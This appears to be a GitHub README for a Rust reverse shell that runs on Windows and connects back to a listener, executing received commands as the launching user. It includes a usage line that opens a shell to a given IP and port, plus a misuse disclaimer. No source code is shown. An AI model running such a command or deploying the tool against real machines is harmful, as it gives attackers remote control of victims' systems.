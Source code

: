# rust_windows_revshell

This is a simple Rust reverse shell written to run on a Windows machine and provide a reverse shell connection back to a listener.  It takes two arguments, an IP and a port, and will run any commands given to it under the user context it was run from.

Usage:

rust_revshell.exe 10.0.190.72 4444

I have modified this to allow you to specify the IP and port to connect to from the command line, so you don't need to recompile this constantly for difference scenarios.

Misusing this code for illegal or unethical purposes may result in severe legal and ethical consequences. So, please use this code responsibly and ethically. 
